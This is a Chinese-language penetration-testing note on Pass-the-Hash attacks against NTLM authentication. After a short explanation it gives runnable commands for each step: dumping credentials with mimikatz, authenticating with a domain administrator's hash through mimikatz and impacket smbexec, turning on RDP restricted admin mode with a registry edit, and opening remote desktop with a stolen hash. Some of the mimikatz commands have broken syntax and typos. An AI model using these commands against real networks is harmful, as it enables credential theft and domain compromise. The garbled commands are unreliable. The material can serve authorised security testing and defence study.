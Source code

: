 # 哈希传递

**关于PTH(Pass The Hash )**

* 针对NTLM协议的攻击技术
* NTLM第三步身份证认证生成Response时，客户端直接使用NTLM哈希值进行计算，用户明文密码不参与
* 当测试人员获取有效的用户名和密码哈希值后，就能直使用该信息对远程主机进行身份认证
* 在域环境中哈希传递往往开业批量获取内网主机权限

**Mimikatz PTH**

获取Administrator NTLM

```
mimikatz.exe "privilege==debug" "sekurlsa==logonpasswords full" exit
```

利用域管理的NTLM hash进行哈希传递

```
mimikatz.exe "priveilege==debug" "sekurlsa==pth /user:Administrator /domain:hack-my.com /ntlm:a8f33bee89eba84d289ab51248f1534b" exit
```

**impacket项目 PTH**

\-hashes 指定用户完成哈希值，如果LM hash被废弃，则指定

```
python3 smbexec.py -hashes :a8f33bee89eba84d289ab51248f1534b Administrator@192.168.0.104
```

**PTH实现远程桌面**

* 需要远程主机开启受限管理员模式
* 需要登录远程桌面用户位于远程主机管理员组中
* 目标用户哈希
* Windows server2012 R2及以上版本采用了新版RDP，支持首先管理员模式，开启该模式后测试人员可以通过哈希传递直接登录
* 受限管理员模式默认在Windows 8.1和WIndow Server2012 R2上默认开启

手动开启受限者模式

```
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 00000000 /f
```

mimikatz利用哈希船体执行 "mstsc.exe /restrictedadmin"命令，以受限管理员身份登录

```
mimikatz.exe 
privilege::debug 
sekurlsa::pth /user:Administrator /domain:hack-my /ntlm:a8f33bee89eba84d289ab51248f1534b "/run:mstsc.exe /restrictedadmin"
```
